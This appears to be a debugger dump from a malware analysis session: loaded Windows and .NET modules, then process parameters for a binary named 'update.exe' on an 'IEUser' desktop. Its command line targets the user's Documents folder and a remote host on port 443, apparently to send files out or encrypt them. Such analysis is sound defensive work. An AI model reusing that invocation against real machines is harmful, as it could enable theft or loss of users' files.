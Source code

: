 ```h!
    7ffad04d0000 5dda3e1b Nov 24 15:23:55 2019 C:\Windows\assembly\NativeImages_v4.0.30319_64\System.Confe64a9051#\6d585ae552d8121e2321b5ee100955ff\System.Configuration.Install.ni.dll
    7ffad06e0000 ab0ae739 Dec 07 11:14:49 2060 C:\Windows\assembly\NativeImages_v4.0.30319_64\Microsoft.Pb378ec07#\944d9690aa72666f3ded0294d0c18604\Microsoft.PowerShell.ConsoleHost.ni.dll
    7ffaab670000 a701071e Oct 15 06:07:10 2058 C:\Windows\assembly\NativeImages_v4.0.30319_64\Microsoft.P521220ea#\6c5d2d60a13658478f9c46626dc06e3b\Microsoft.PowerShell.Commands.Utility.ni.dll
    7ffaac570000 b98b8f4c Aug 23 14:05:48 2068 C:\Windows\assembly\NativeImages_v4.0.30319_64\Microsoft.Pae3498d9#\03f8d68acf7a8476a6782344b85ce268\Microsoft.PowerShell.Commands.Management.ni.dll
    7ffacf0c0000 d6610674 Dec 22 13:34:28 2083 C:\Windows\assembly\NativeImages_v4.0.30319_64\Microsoft.Mf49f6405#\1a9dbe36222431068d63284a515217f7\Microsoft.Management.Infrastructure.ni.dll
    7ffaceb80000 f017457a Aug 23 07:42:34 2097 C:\Windows\assembly\NativeImages_v4.0.30319_64\Microsoft.P6f792626#\8bcf4f054f1cac6544aec3820bdcf108\Microsoft.PowerShell.Security.ni.dll
    7fface0a0000 940bce2d Sep 15 23:54:05 2048 C:\Windows\assembly\NativeImages_v4.0.30319_64\Microsoft.We0722664#\ba920df260c2c88b5e237153b2f0f4fb\Microsoft.WSMan.Management.ni.dll
    7ffacce30000 5ed9c0dc Jun 05 10:49:48 2020 C:\Windows\assembly\NativeImages_v4.0.30319_64\System.Configuration\053d057c90af827d0929a6aba7feabcf\System.Configuration.ni.dll
    7ffacc110000 5dda3e2e Nov 24 15:24:14 2019 C:\Windows\assembly\NativeImages_v4.0.30319_64\System.Xml\eab83bdd6eee1b956e2c8aef88914cc1\System.Xml.ni.dll
    7ffae06d0000 526ec56d Oct 29 03:13:33 2013 C:\Windows\SYSTEM32\windows.storage.dll
    7ffae24f0000 793b0534 Jun 14 22:18:12 2034 C:\Windows\SYSTEM32\profapi.dll
    7ffae4010000 0f828c32 Apr 01 00:36:50 1978 C:\Windows\System32\psapi.dll
    7ffaac7b0000 5f52abe5 Sep 05 04:04:37 2020 C:\Windows\assembly\NativeImages_v4.0.30319_64\System.Data\84aed1edd797cb6d561bc7bf355d46b2\System.Data.ni.dll
    7ffab36d0000 5f52abe5 Sep 05 04:04:37 2020 C:\Windows\Microsoft.Net\assembly\GAC_64\System.Data\v4.0_4.0.0.0__b77a5c561934e089\System.Data.dll
    7ffae37c0000 aff3315b Jul 18 09:18:03 2063 C:\Windows\System32\WS2_32.dll
    7ffacef50000 5dda3e36 Nov 24 15:24:22 2019 C:\Windows\assembly\NativeImages_v4.0.30319_64\System.Management\a00d58ba692a8febe63782689321bb04\System.Management.ni.dll
    7fface840000 5dda3e38 Nov 24 15:24:24 2019 C:\Windows\assembly\NativeImages_v4.0.30319_64\System.Dired13b18a9#\79f99918023317d012fe2183f857bb1c\System.DirectoryServices.ni.dll
    7ffad3d10000 5dda3e1d Nov 24 15:23:57 2019 C:\Windows\assembly\NativeImages_v4.0.30319_64\System.Numerics\0c073f42cf7c0b89bd4ceb4244060ceb\System.Numerics.ni.dll
    7fface760000 5dda4d4c Nov 24 16:28:44 2019 C:\Windows\assembly\NativeImages_v4.0.30319_64\System.Transactions\8cf69b2ee1126c11a4965ce03cac7452\System.Transactions.ni.dll
    7fface710000 5dda4d4c Nov 24 16:28:44 2019 C:\Windows\Microsoft.Net\assembly\GAC_64\System.Transactions\v4.0_4.0.0.0__b77a5c561934e089\System.Transactions.dll
    7ffad2a80000 7aec0e44 May 09 09:28:20 2035 C:\Windows\SYSTEM32\secur32.dll
    7ffae2470000 7fc7908a Dec 07 14:51:38 2037 C:\Windows\SYSTEM32\SSPICLI.DLL
    7ffae4be0000 db9f728a Oct 05 19:37:30 2086 C:\Windows\System32\clbcatq.dll
    7ffacdf90000 91fb18b5 Aug 11 23:03:01 2047 C:\Windows\SYSTEM32\rasapi32.dll
    7ffad4be0000 b4f05a27 Mar 13 03:16:39 2066 C:\Windows\SYSTEM32\rasman.dll
    7ffad5af0000 a1fe1a07 Feb 15 03:09:43 2056 C:\Windows\SYSTEM32\rtutils.dll
    7ffae1c90000 f42c9c21 Oct 25 05:30:57 2099 C:\Windows\system32\mswsock.dll
    7ffad99a0000 86cce493 Aug 31 22:13:23 2041 C:\Windows\SYSTEM32\winhttp.dll
    7ffae1980000 cf9a121a May 15 13:41:30 2080 C:\Windows\SYSTEM32\IPHLPAPI.DLL
    7ffae3100000 aa9c8581 Sep 14 17:48:33 2060 C:\Windows\System32\NSI.dll
    7ffadb120000 c962e034 Jan 24 14:52:20 2077 C:\Windows\SYSTEM32\dhcpcsvc6.DLL
    7ffadb0d0000 1c1d619d Dec 12 15:19:41 1984 C:\Windows\SYSTEM32\dhcpcsvc.DLL
    7ffacde20000 5dda4e25 Nov 24 16:32:21 2019 C:\Windows\Microsoft.NET\Framework64\v4.0.30319\diasymreader.dll
    7ffae19c0000 50d11fc0 Dec 19 09:00:32 2012 C:\Windows\SYSTEM32\DNSAPI.dll
    7ffadbf90000 7eaef63e May 08 18:38:38 2037 C:\Windows\SYSTEM32\WINNSI.DLL
    SubSystemData:     0000000000000000
    ProcessHeap:       0000000000f30000
    ProcessParameters: 0000000000f31da0
    CurrentDirectory:  'C:\Users\IEUser\Desktop\'
    WindowTitle:  'C:\Users\IEUser\Desktop\update.exe'
    ImageFile:    'C:\Users\IEUser\Desktop\update.exe'
    CommandLine:  '"C:\Users\IEUser\Desktop\update.exe" -e C:\Users\IEUser\Documents\ -s 192.168.240.1 -p 443 -x'
    DllPath:      '< Name not readable >'
    Environment:  0000000000f30fe0
        =::=::\
```